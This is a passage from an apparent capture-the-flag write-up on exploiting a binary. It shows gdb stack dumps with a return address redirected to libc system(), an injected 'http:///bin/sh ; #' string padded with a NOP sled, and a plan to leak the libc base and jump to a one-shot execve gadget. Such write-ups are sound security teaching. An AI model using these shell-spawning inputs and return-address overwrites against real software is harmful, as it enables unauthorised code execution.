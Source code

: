 ```
R9 : 0x240
R10: 0x18c
R11: 0x7f7b40984810 --> 0xfff36250fff36240
R12: 0x400a90 (xor    ebp,ebp)
R13: 0x7ffc467f12e0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400cc0:    mov    rdi,rax
   0x400cc3:    call   0x400b97
   0x400cc8:    leave
=> 0x400cc9:    ret
   0x400cca:    push   rbp
   0x400ccb:    mov    rbp,rsp
   0x400cce:    sub    rsp,0x30
   0x400cd2:    mov    eax,edi
[------------------------------------stack-------------------------------------]
0000| 0x7ffc467f1128 --> 0x7f7b40863890 (<system>:      test   rdi,rdi)
0008| 0x7ffc467f1130 --> 0x7ffc467f1084 --> ('A' <repeats 115 times>, "jhH...")
0016| 0x7ffc467f1138 --> 0x7f0e00000000
0024| 0x7ffc467f1140 --> 0x0
0032| 0x7ffc467f1148 --> 0x0
0040| 0x7ffc467f1150 --> 0x12a0010 ("http:///bin/sh ; # ", '\220' <repeats 181 times>...)
0048| 0x7ffc467f1158 --> 0x23500000235
0056| 0x7ffc467f1160 --> 0x7ffc467f1180 --> 0x7ffc467f11b0 --> 0x7ffc467f1200 --> 0x401110 (push   r15)
[------------------------------------------------------------------------------]
```

Looks good so far. Unfortunately I didn't get any output, from the launched
shell command. In gdb I could see that bash was being executed but for some
reason there was no output.


My second attempt was to jump to the magic shell spawning gadget in the libc.
In all glibc there is a magic gadget which will call `execve` and use the
string `/bin/sh` as first parameter. This is part of the `system` code. So I
opened my libc in radare and search for this gadget.

So the new plan is:

  1. Leak libc base address.
  2. Compute address of magic shell spawning gadget.
  3. Overwrite return address.


Again in the debugger I can confirm that it works as expected. Again somehow
the environment prevents me from interacting with the spawned shell. This is
the only output I get from the child process.

```
00000000  10 6e da 16  fd 7f 3a 20  eb 01 90 c9  c3 55 48 89  │·n··│··: │····│·UH·│
00000010  e5 48 83 ec  20 89 7d ec  c7 45 fc 3a  20 4e 6f 20  │·H··│ ·}·│·E·:│ No │
00000020  73 75 63 68  20 66 69 6c  65 20 6f 72  20 64 69 72  │such│ fil│e or│ dir│
00000030  65 63 74 6f  72 79 0a                               │ecto│ry·│
00000037
```
